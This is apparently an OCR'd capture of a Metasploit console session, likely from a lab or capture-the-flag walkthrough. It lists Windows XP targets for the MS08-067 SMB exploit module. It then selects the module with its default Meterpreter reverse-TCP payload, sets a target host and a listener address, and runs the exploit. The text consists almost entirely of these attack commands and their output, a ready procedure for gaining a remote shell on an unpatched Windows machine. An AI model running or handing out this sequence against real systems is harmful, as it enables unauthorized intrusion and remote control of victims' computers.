 ```yaml
   24    \_ target: Windows XP SP2 Korean (NX)                          .                .      .      .
   25    \_ target: Windows XP SP2 Dutch (NX)                           .                .      .      .
   26    \_ target: Windows XP SP2 Norwegian (NX)                       .                .      .      .
   27    \_ target: Windows XP SP2 Polish (NX)                          .                .      .      .
   28    \_ target: Windows XP SP2 Portuguese - Brazilian (NX)          .                .      .      .
   29    \_ target: Windows XP SP2 Portuguese (NX)                      .                .      .      .
   30    \_ target: Windows XP SP2 Russian (NX)                         .        <SNIP>

Interact with a module by name or index. For example info 82, use 82 or use exploit/windows/smb/ms08_067_netapi                                         
After interacting with a module you can manually set a TARGET with set TARGET 'Windows 2003 SP2 Turkish (NX)'                                           

msf6 > use 1
[*] Additionally setting TARGET => Automatic Targeting
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://doc
                                       s.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVS
                                       VC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh,
                                         thread, process, none)
   LHOST     192.168.45.131   yes       The listen address (an interface m
                                        ay be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

```